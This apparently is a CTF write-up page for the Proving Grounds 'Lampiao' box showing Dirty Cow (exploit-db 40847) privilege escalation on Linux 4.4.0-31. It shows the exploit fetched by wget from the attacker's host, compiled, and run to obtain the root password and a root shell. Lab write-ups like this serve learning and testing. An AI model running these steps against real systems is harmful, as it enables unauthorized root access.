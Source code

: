 ```yaml
---
layout: default
title: Dirty Cow
parent: Kernel Exploits
nav_order: 1
---
```


# Dirty Cow

---

## 4.4.0-31-generic (x86)

The Linux version is 4.4.0-31-generic which should be vulnerable to the _dirty cow_ kernel exploit.

![linpeas](../../../../assets/images/ctfs/proving_grounds/lampiao/linpeas.png)

[Dirty Cow Exploit Raw Code](https://www.exploit-db.com/exploits/40847)

Transfer the exploit to the taget machine.

```bash
tiago@lampiao:/tmp$ wget http://192.168.45.217:8000/40847.cpp
wget http://192.168.45.217:8000/40847.cpp
--2023-11-07 00:52:23--  http://192.168.45.217:8000/40847.cpp
Connecting to 192.168.45.217:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10531 (10K) [text/x-c++src]
Saving to: ‘40847.cpp’

100%[======================================>] 10,531      --.-K/s   in 0.003s

2023-11-07 00:52:23 (3.22 MB/s) - ‘40847.cpp’ saved [10531/10531]

```

Compile the exploit using _g++_

```bash
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dirtycow2 40847.cpp -lutil
```

Now we just compile and execute the exploit and get root access.

```bash
tiago@lampiao:/tmp$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dirtycow2 40847.cpp -lutil
<ll -pedantic -O2 -std=c++11 -pthread -o dirtycow2 40847.cpp -lutil
tiago@lampiao:/tmp$ ls
ls
40847.cpp  dirtycow2  l  vmware-root
tiago@lampiao:/tmp$ ./dirtycow2
./dirtycow2
Running ...
Received su prompt (Password: )
Root password is:   dirtyCowFun
Enjoy! :-)
tiago@lampiao:/tmp$ su root
su root
Password: dirtyCowFun

root@lampiao:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root)

```
